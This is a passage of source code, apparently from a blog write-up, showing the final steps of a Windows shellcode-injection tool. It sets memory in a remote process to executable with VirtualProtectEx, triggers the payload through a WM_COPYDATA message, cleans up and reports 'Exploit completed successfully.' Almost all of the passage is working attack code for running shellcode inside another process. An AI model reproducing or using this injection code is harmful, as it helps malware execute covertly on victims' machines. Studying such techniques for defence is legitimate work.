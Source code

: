         // Step 12: Ensure Memory Protection for Payload
        DWORD oldProtect;
        if ( !VirtualProtectEx(
            hProcess,
            remotebuf,
            shellcodeSize,
            PAGE_EXECUTE_READ,
            &oldProtect
        ) )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to change memory protection for payload. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;
        }
        printf( COLOR_GREEN_BOLD "\t[+] Memory protection for payload set to PAGE_EXECUTE_READ.\n" COLOR_RESET );
    
        // Step 13: Trigger the payload
        printf( COLOR_YELLOW_BOLD "\t[*] Sending message to trigger the payload...\n" COLOR_RESET );
        COPYDATASTRUCT cds;
        WCHAR msg[] = L"LJX";
        cds.dwData = 1;
        cds.cbData = ( lstrlenW( msg ) + 1 ) * sizeof( WCHAR );
        cds.lpData = msg;
        LRESULT result = SendMessage(
            hWindow,
            WM_COPYDATA,
            ( WPARAM ) hWindow,
            ( LPARAM ) &cds
        );
        if ( result == 0 && GetLastError() != 0 )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to send message to trigger payload. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;
        }
        printf( COLOR_GREEN_BOLD "\t[+] Payload triggered!\n" COLOR_RESET );
    
        // Cleanup
        printf( COLOR_YELLOW_BOLD "\t[*] Cleaning up...\n" COLOR_RESET );
        VirtualFreeEx( hProcess, remotebuf, 0, MEM_RELEASE );
        VirtualFreeEx( hProcess, cloneCCC, 0, MEM_RELEASE );
        TerminateProcess( pi.hProcess, 0 );
        CloseHandle( hProcess );
        CloseHandle( pi.hProcess );
        CloseHandle( pi.hThread );
    
        printf( COLOR_GREEN_BOLD "\n[+] YAAAAAAAAAY.\n" COLOR_RESET );
        printf( COLOR_GREEN_BOLD "[+] Exploit completed successfully.\n" COLOR_RESET );
        return 0;
    }


* * *

最后，感谢您的阅读！

